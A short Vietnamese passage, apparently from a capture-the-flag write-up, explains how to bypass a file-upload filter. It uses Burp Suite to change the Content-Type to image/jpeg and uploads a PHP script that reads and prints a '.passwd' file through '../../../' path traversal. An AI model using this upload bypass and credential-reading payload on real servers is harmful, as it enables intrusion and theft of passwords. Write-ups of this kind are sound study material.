 Dùng Burp Suite để bắt request, upload file `harm.php` với code như sau:

```php
 <?php
$file = fopen("../../../.passwd", "r");

while(! feof($file)) {
  $line = fgets($file);
  echo $line. "<br>";
}

fclose($file);
?> 
```

Bật intercept, gửi request, chuyển Content-type thành image/jpeg rồi forward, ta sẽ lấy được password ở đường dẫn `/harm.php`
